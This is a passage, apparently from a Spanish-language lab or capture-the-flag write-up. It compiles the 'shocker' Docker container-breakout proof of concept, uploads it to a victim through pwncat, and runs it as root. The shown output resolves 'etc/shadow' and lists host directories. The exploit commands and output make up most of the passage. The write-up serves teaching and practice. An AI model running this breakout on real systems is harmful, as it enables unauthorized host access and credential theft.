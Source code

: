 En mi caso, vamos a elegir el `/etc/hosts` ya que como la máquina víctima es linux, sabemos que existe este archivo.
![Write-up Image](images/Screenshot_28.png)

Ahora compilamos el script.
```shell
 gcc -Wall -std=c99 -O2 shocker.c -static -o shocker
```

Lo subimos a la máquina víctima
```shell
(local) pwncat$ upload shocker /tmp/shocker
/tmp/shocker ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 767.1/767.1 KB • ? • 0:00:00
[23:21:17] uploaded 767.10KiB in 0.77 seconds
```

```shell
(remote) root@c150397ccd63:/tmp# ./shocker /etc/hosts hosts
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[*] Found lib32
[*] Found ..
[*] Found lost+found
[*] Found sbin
[*] Found bin
[*] Found boot
[*] Found dev
[*] Found run
[*] Found lib64
[*] Found .
[*] Found var
[*] Found home
[*] Found media
[*] Found proc
[*] Found etc
[+] Match: etc ino=393217
```